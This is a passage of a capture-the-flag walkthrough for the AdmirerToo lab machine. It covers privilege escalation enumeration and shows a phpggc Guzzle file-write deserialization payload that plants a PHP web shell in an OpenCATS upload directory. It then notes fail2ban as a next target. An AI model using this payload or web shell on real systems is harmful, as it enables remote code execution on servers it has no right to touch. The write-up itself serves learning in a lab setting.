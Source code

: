 ```
</Directory>  
<Directory /opt/opencats>  
       Options Indexes FollowSymLinks  
       AllowOverride None  
       Require all granted  
</Directory>  
AccessFileName .htaccess  
<FilesMatch "^\.ht">  
       Require all denied  
</FilesMatch>  
LogFormat "%v:%p %h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" vhost_c  
LogFormat "%h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" combined  
LogFormat "%h %l %u %t \"%r\" %>s %O" common  
LogFormat "%{Referer}i -> %U" referer  
LogFormat "%{User-agent}i" agent  
IncludeOptional conf-enabled/*.conf  
IncludeOptional sites-enabled/*.conf
```

Alright, user devel and group devel. What can we do with this group and user in terms of writing? Let's see:
```
jennifer@admirertoo:/etc/apache2-opencats$ find / -user devel 2>/dev/null  
jennifer@admirertoo:/etc/apache2-opencats$ find / -group devel  2>/dev/null  
/opt/opencats/INSTALL_BLOCK  
/usr/local/src  
/usr/local/etc
```

Alright, so there's a few directories we can write into. We'll just note that for later. As per the writeup, `phpggc` can be employed to exploit the Guzzle file write gadget. Here's an example of what the payload would look like:
```
thehated@TRYHARDER:/dev/shm/phpggc$ ./phpggc Guzzle/FW1 /opt/opencats/upload/shell.php shell.php                
O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:41:"GuzzleHttp\Cookie\FileCookieJarfilename";s:30:"/opt/opencats/upload/shell.php";s:52:"GuzzleHttp\Cookie\FileCookieJarstoreSession  
Cookies";b:1;s:36:"GuzzleHttp\Cookie\CookieJarcookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"GuzzleHttp\Cookie\SetCookiedata";a:3:{s:7:"Expires";i:1;s:7:"Discard  
";b:0;s:5:"Value";s:31:"<?php system($_GET['cmd']); ?>  
";}}}s:39:"GuzzleHttp\Cookie\CookieJarstrictMode";N;}
```

But there's not much use to this unless we know what to write and how it would help us.

**fail2ban**

F2B is installed on this machine, which is of note:
```
jennifer@admirertoo:/opt/opencats/upload$ fail2ban-client --version  
Fail2Ban v0.10.2  
  
Copyright (c) 2004-2008 Cyril Jaquier, 2008- Fail2Ban Contributors  
Copyright of modifications held by their respective authors.  
Licensed under the GNU General Public License v2 (GPL).
```
